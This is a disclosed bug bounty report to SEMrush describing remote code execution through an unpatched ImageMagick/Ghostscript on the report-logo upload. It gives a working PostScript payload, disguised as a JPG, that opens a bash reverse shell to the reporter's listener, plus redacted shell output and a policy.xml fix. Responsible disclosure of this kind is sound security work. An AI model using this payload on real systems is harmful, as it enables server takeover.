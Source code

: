 # Remote Code Execution on www.semrush.com/my_reports on Logo upload

## Report Details
- **Report ID**: 403417
- **URL**: https://hackerone.com/reports/403417
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-08-31T12:48:47.276Z
- **Disclosed**: 2019-06-24T16:57:38.655Z

## Reporter
- **Username**: fransrosen
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: semrush

## Vulnerability Information
The Logo upload in the report constructor at: https://www.semrush.com/my_reports/constructor

{F340480}

is passed through a not properly patched version of ImageMagick. You can use Postscript to get Ghostscript to run which in return allows to trigger arbitrary commands on the server, leading to Remote Code Execution. Tavis Ormandy has also mentioned recently that the policy.xml needs to disable EPS,PS,PDF and XPS since all these have ways to trigger Ghostscript: http://openwall.com/lists/oss-security/2018/08/21/2

The following PoC-payload was used to get a reverse shell when issuing the upload:

Save it as `test.jpg` and upload it as an image for the logo:

```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%bash -c 'bash -i >& /dev/tcp/███/8080 0>&1') currentdevice putdeviceprops
```

(`█████` is the IP of my listener)

This resulted in:

```
█████████
██████████
ls
███████
██████████
app
████████
██████████
████
████████
██████
███
█████████
████████
██████
█████████
█████████
█████
██████████
█████
██████
█████████
███
█████
██████
████
█████
█████████
███████
████████
███
███


███
whoami
████
███████
██████
```

At this point I wasn't sure if this was a third party or not, so I checked two things:

## `██████` to list files in the ██████ dir. It showed me:

```
█████████
███
████████
████████
███████
█████
████
█████████
████
██████████
```

I navigated to 

```
https://www.semrush.com/my_reports/████
https://www.semrush.com/my_reports/████████
```

And confirmed those two files exists in this directory.

## `/etc/hosts`

This one confirmed it by:

```
cat /etc/hosts
127.0.0.1 localhost
█████ ████.semrush.net ███
████████ ███████
```

I'm certain this is a SEMrush-instance.

{F340481}

You should urgently make sure your policy.xml for imagemagick ONLY allows gif,jpg,png and nothing else.

Regards,
Frans

## Impact

#

## Attachments
- Screen_Shot_2018-08-31_at_14.46.54.png
